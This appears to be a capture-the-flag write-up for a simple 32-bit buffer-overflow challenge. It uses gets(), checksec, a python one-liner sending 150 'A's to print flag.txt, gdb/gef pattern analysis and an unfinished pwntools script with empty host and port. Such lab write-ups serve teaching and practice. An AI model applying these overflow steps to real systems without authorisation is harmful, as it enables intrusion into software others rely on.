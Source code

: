 # Challenge 1
## Description
Let's start off simple, can you overflow the correct buffer?

### Two files were comrades in the challenge. (vuln.c , vuln)
#### vlun.c
<img src="https://github.com/q5fj/Pwn/assets/88992167/76c5aa29-ee1d-4098-bd72-92e7207f575c">

We note that in the code the binary file will not work unless the binary file path contains a file named flag.txt
<img src="https://github.com/q5fj/Pwn/assets/88992167/0a7f786c-8fbc-4524-832f-c38b7a61fcf3">

Also notice we have "gets" in the user input 

##### gets - get a string from standard input (DEPRECATED)
<img src="https://github.com/q5fj/Pwn/assets/88992167/0ae608e9-5726-4212-8449-47e2ea331cb7">

Now that have analyzed the source, let us move to the binary file:
#### vuln
#### Command :-
```
$ file vuln 
```
<img src="https://github.com/q5fj/Pwn/assets/88992167/0b59e5e3-38cb-4508-926f-0961f43efe8e">

The file is 32 bit, let's check the security features : 
#### Command :-
```
$ checksec vuln 
```
<img src="https://github.com/q5fj/Pwn/assets/88992167/598555c8-43eb-48d6-a71e-04da7dcd334e">

No stack canary, assume BOF.

Let's run the file and see what happens.
#### Don't forget to create a flag.txt file for the file to work :-
```
echo "Flag{1234567890}" > flag.txt
```
and run the file:-
```
$ ./vuln
```
<img src="https://github.com/q5fj/Pwn/assets/88992167/1c98a2ec-7e8c-41d5-ab81-c8d787f95f6b">

We also see the user input and the program exits :)

If we remember that it uses the `gets` function, which is a dangerous function that leads to a buffer overflow because it does not read user input.

Let's try to enter a byte higher than 100
```
$ python -c 'print("A" * 150)' | ./vuln
```
We notice that the program printed the contents of the flag.txt file.

<img src="https://github.com/q5fj/Pwn/assets/88992167/b67559bb-9639-4f40-998d-bc256754b291">



Now let's start examining the file closely :)

I will use gdb tool
```
gdb ./vuln -q
```
I will display the functions inside the file 
#### Command :-
```
gef➤ info functions
```
<img src="https://github.com/q5fj/Pwn/assets/88992167/dc92ea00-d1dd-462f-9b60-d86e3432bb0e">


Let's start by analyzing the main function
#### Command :-
```
gef➤ disassemble main 
```
<img src="https://github.com/q5fj/Pwn/assets/88992167/0b24c7ef-295f-4493-b27e-7d0b74cd88cd">

#### So our function is main :)

Now we need the appropriate offset:-
#### Command :-
```
gef➤  pattern create 150
```
<img src="https://github.com/q5fj/Pwn/assets/88992167/0a1d8ee4-6bae-467f-a5d4-850eb59e6116">



### Let's Start Exploiting 
```
import shutup; shutup.please()
from pwn import *

# elf = context.binary = ELF('./vuln')
# io = elf.process()

host =
port = 
io = remote(host, port)


```






